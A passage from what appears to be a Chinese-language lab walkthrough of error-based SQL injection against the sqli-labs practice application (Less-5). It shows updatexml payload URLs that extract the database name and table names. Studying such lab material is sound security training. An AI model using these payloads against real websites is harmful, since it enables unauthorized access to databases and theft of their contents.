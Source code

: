 URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,'~',3)--+

![img](assets/TtiayhcGH7L6gKZ.jpg) 

#### 3.2.5.4.**确定数据库名**

通过对其进行拼接使其能够进行报错，并且在报错的同时显示出数据库名，concat(0x7e,database())。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,database()),3)--+

![img](assets/gQFDKTpLViNmfrz.jpg) 

#### 3.2.5.5.**确定数据库的表名**

把concat中database()换成正常的查询sql语句就可以了，和联合查询语句如出一辙。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security' )),3)--+

![img](assets/35A7O8TlogXDJGn.jpg) 

#### 3.2.5.6.**确定数据库的列名**
